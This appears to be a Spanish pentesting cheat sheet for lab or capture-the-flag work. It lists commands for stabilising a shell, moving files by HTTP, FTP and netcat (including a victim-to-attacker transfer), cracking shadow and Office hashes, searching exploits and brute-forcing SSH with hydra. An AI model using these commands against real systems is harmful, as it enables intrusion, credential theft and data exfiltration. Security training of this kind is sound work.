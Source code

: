  
### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset "xterm" # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```
### Comparación de archivos

```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>
```

### Netcat
```python

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

	maquina atacante
	nc -lvnp "Ports" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	maquina victima
	nc "IP" "Ports" < "archivo"

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
steghide --extract -sf archivo.png/jpg
```

### Búsqueda de exploits

```python
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
find / -iname nombre_archivo
```
### Fuerxa bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```
